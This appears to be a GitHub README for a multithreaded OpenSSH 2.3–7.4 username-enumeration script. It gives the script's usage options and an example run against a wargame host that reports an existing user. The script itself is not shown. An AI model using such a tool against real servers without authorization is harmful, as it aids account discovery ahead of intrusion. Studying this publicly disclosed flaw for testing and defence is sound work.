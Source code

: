 # openssh_user_bruteforce
OpenSSH 2.3 &lt; 7.4 - Username Enumeration Multithreaded Bruteforcer. Based on http://www.openwall.com/lists/oss-security/2018/08/15/5

# Usage
```
$ ./openssh_bruteforce.py -h
usage: openssh_bruteforce.py [-h] -host HOSTNAME [-p PORT] [-user USERNAME]
                             [-w WORDLIST]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Target port. (Default 22)
  -user USERNAME, --username USERNAME
                        Check a single username.
  -w WORDLIST, --wordlist WORDLIST
                        Path to a usernames wordlist.

required arguments:
  -host HOSTNAME, --hostname HOSTNAME
                        The host you want to target.
```
example 
```
$ ./openssh_bruteforce.py -host pwnable.kr -user fd -p 2222
[+] User Exists!
```

# Note
You can find explanation of the technique used inside the script.


#### Credits
This script is heavily based on the POC found on exploit-db https://www.exploit-db.com/exploits/45210/
